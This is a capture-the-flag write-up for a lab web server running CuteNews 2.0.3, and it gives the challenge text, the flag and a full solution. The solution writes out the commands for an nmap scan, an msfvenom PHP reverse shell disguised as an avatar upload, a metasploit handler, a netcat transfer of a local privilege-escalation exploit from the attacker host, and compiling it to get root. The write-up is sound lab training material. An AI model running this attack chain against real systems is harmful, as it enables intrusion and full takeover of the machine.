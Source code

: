 # Cute Problems
200

You have access to the Acme Corp Jira board, and noticed there is a ticket to fix a vulnerability with the web app at 192.168.x.7.

Why not offer them a free pentest? Show off your skills by getting root on the machine and capturing the flag. Maybe a job offer will follow?

Notes to players, adjust the 3rd octet to reflect your team's address space.

# Flag
```
RTXFLAG{best_avatar_ever}
```

# Solution
Port 80 is open. 
```
$ sudo nmap -n -O 192.168.5.7                                                                                                                                                                             1 ⨯
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-12 00:57 EDT
Nmap scan report for 192.168.5.7
Host is up (0.00032s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:50:56:B8:DF:B3 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.17 seconds
```

Taking a look - it's a login page. There is a link to register as a new user. Also - it's powered by something called CuteNews 2.0.3. What is this? It's an old version that is vulnerable. [https://www.exploit-db.com/exploits/37474](https://www.exploit-db.com/exploits/37474)

The exploit relies on file upload. To take advantage, we need to be a user. Let see if we can register? Why yes, we can. Let's create a reverse shell using msfvenom
```
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.5.101 LPORT=9898 -f raw > shell.jpg
```

Then, using burpsuite proxy to intercept the file upload. Rename the .jpg to .php and forward.

Next - in metasploit, set up the shell handler
```
$ msfconsole 
...
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.5.101
msf6 exploit(multi/handler) > set lport 9898
msf6 exploit(multi/handler) > exploit
```

Now, go to the /uploads site and click on the link to the reverse shell. Hopefully back in metasploit we have a shell.
```
meterpreter > ls
Listing: /var/www/html/uploads
==============================

Mode         Size  Type  Last modified       Name
----         ----  ----  -------------       ----
100644/rw-r  1114  fil   2021-09-12 01:21:0  avatar_user1_shell.
--r--                    9 -0400             php
```

Spent some time digging into the files on the website. It uses a flat-file system (instead of a database). There is one user with some sudo privs - so I thought that if I could find this users password, I could run some code to get root. While there are some password hashes in the /cdata/users directory - none for the user of interest.

So, started looking that the linux box itself.
```
uname -a
Linux WebServer1.acmecorp.local 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:45:15 UTC 2015 i686 i686 i686 GNU/Linux
```

Oh - wow - that's a bit out of date

This could be an approach - [https://or10nlabs.tech/vulnhub-simple/](https://or10nlabs.tech/vulnhub-simple/)

So on my host
```
$ searchsploit linux | grep Ubuntu | grep 14.04
Apport (Ubuntu 14.04/14.10/15.0 | linux/local/37088.c
Apport 2.14.1 (Ubuntu 14.04.2)  | linux/local/36782.sh
Linux Kernel (Ubuntu 14.04.3) - | linux/local/39771.txt
Linux Kernel 3.x (Ubuntu 14.04  | linux/local/41999.txt
NetKit FTP Client (Ubuntu 14.04 | linux/dos/37777.txt
Ubuntu 14.04/15.10 - User Names | linux/local/41762.txt
WebKitGTK 2.1.2 (Ubuntu 14.04)  | linux/local/44204.md
```

And taking the first entry
```
$ cp /usr/share/exploitdb/exploits/linux/local/37088.c 37088.c
```
Now start a nc session to transfer the file,
```
nc -nlvp 31337 < 37088.c
```

and on the target, grab the file:
```
nc 192.168.5.101 31337 > /tmp/37088.c
```

give it a sec to transfer and then close the host;

Back on the target, lets compile and run the code:
```
cd tmp
gcc 37088.c -o 37088
./37088
```

and Profit! we have root.
```
# id
uid=0(root) gid=0(root) groups=0(root)
# ls -la /root
total 24
drwx------  2 root root 4096 Aug 24 17:20 .
drwxr-xr-x 21 root root 4096 Jan 16  2019 ..
-rw-r--r--  1 root root 3106 Feb 19  2014 .bashrc
-rw-r--r--  1 root root  140 Feb 19  2014 .profile
-rw-------  1 root root 1442 Aug 24 17:20 .viminfo
-rw-------  1 root root   26 Aug 24 17:20 flag.txt
# cat /root/flag.txt
RTXFLAG{best_avatar_ever}
```
